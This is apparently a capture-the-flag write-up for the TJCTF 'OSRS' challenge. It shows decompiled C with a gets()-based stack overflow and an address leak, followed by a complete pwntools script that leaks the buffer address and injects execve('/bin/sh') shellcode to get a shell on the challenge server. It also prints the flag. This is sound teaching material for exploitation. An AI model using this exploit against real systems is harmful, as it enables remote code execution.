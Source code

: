 # OSRS

> My friend keeps talking about Old School RuneScape. He says he made a service to tell you about trees.
>
> I don't know what any of this means but this system sure looks old! It has like zero security features enabled...
>
> nc p1.tjctf.org 8006

## Description

Let's decompile the binary with Ghidra.

```c
undefined4 main(void)
{
  int iVar1;
  
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  iVar1 = get_tree();
  if (0 < iVar1) {
    puts(*(char **)(trees + iVar1 * 8 + 4));
  }
  return 0;
}

int get_tree(void)
{
  int iVar1;
  char local_110 [256];
  int local_10;
  
  puts("Enter a tree type: ");
  gets(local_110);
  local_10 = 0;
  while( true ) {
    if (0xc < local_10) {
      printf("I don\'t have the tree %d :(\n",local_110);
      return 0xffffffff;
    }
    iVar1 = strcasecmp(*(char **)(trees + local_10 * 8),local_110);
    if (iVar1 == 0) break;
    local_10 = local_10 + 1;
  }
  return local_10;
}
```

In the `get_tree` function, we see a potential buffer overflow enabled by the function `gets`.

## Solution

As the description suggests, there is no security feature activated, including no PIE or NX. Therefore we can include a shellcode in the buffer and execute it. 

However ASLR seems to be enabled. Thanksfully, the line `I don't have the tree` leaks the address of the buffer, so we can retrieve it, jump again to the `get_tree` function and perform our exploit, this time knowing the address of the buffer.

```python
from pwn import *

sh = remote('p1.tjctf.org', 8006)

ret_addr = 0x08048642
get_tree_addr = 0x08048612
offset = 256 + 16 # number of bytes from buffer to ret addr
shellcode = asm(shellcraft.i386.linux.execve('/bin/sh'))

# First step: get address of buffer
print(sh.recvuntil("type:").decode())

payload = b'a'*offset + p32(get_tree_addr)
sh.sendline(payload)

print(sh.recvuntil("tree").decode(), end="")
answer = sh.recvuntil(":(").decode()
print(answer)

buf_addr = (int(answer.split(":(")[0])) & ((1 << 32) - 1)
print(hex(buf_addr))

# Second step: insert shell code and jump there
print(sh.recvuntil("type:").decode())
payload = shellcode + b'\x00'*(offset - len(shellcode)) + p32(buf_addr) + p32(0)

sh.sendline(payload)
sh.interactive()
```

Flag: `tjctf{tr33_c0de_in_my_she115}`